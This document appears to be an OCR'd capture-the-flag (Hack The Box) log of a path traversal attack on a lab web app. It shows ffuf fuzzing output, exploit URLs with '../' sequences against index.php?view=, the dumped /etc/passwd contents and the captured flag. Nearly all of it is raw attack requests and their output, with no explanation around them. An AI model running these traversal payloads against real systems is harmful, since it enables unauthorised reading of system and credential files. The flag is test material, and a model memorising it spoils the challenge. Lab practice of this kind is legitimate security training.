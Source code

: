 :: Progress: [293/870] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 0ms]
:: Progress: [294/870] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 0ms]


http://83.136.250.104:45346/index.php?view=../../../../../../../../../../../../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:103:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:104:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:105:107::/nonexistent:/usr/sbin/nologin sshd:x:106:65534::/run/sshd:/usr/sbin/nologin barry:x:1000:1000::/home/barry:/bin/sh

http://83.136.250.104:45346/index.php?view=../../../../../../../../../../../../../../../../../flag.txt

HTB{4u70m47!0n_f!nd5_#!dd3n_93m5}
